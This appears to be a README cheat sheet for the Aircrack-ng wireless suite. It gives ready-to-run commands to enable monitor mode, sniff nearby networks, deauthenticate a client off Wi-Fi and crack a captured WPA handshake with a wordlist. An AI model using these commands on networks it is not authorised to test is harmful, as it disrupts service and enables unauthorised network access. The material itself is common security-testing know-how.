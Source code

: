 #### Main tools
1. **Airmon-ng**: Used to enable monitor mode on a wireless adapter, allowing you to capture network traffic.
2. **Airodump-ng**: Captures network traffic, focusing on identifying wireless networks and capturing data packets.
3. **Airgraph-ng**: Generates graphical representations of network traffic based on captured data, providing a visual representation of network activity.
4. **Aireplay-ng**: Creates network traffic and performs various attacks, such as deauthentication and packet injection, to manipulate network behavior.
5. **Aircrack-ng**: The flagship tool that cracks WEP and WPA/WPA2 encryption keys, allowing you to assess the strength of your network's security.
6. **Airbase-ng**: Creates fake access points for testing network security, performing man-in-the-middle attacks, or social engineering purposes.

#### Step 1. Airmon-ng
Setting up the monitor mode on the wifi interface
##### Managed mode - Interface wlan0
The common mode is set to only receive packets directed to our MAC address
##### Monitor mode - Interface wlan0mon
This mode used in airmon-ng is used to receive all packets that are in range of the WiFi adapter
###### Get current mode
```shell
iwconfig
```
###### Switch channel (wlan0mon interface)
```shell
iwconfig [interface] channel [number]
```
###### Check if services are using the interface
```shell
sudo airmon-ng check
```
###### Kill the services using the interface
```shell
sudo airmon-ng check kill
```
###### Restart the network service
```shell
sudo service NetworkManager restart
```
###### Switch to monitor mode
```shell
sudo airmon-ng start [interface]
```
###### Stop the monitor mode
```shell
sudo airmon-ng stop [interface]
````

#### Step 2. Airodump-ng
Sniffing around
###### Capturing packets from wireless networks around
```shell
sudo airodump-ng [interface] -w output
```
###### Capturing packets from a specific BSSID and channel 
```shell
sudo airodump-ng [interface] --bssid [MAC Address] --channel [n] -w output
```

#### Step 3. Aireplay-ng
Attack mode
######  Disconnect someone from wifi while capturing packets
```shell
sudo aireplay-ng -deauth 0 -a [Wifi MAC] -c [Client MAC]
```

#### Step 4.  Aircrack-ng
Crack the handshake
###### Using wordlist
```shell
sudo aircrack-ng -w [wordlist.txt] -b [Wifi MAC] [.cap file]
```


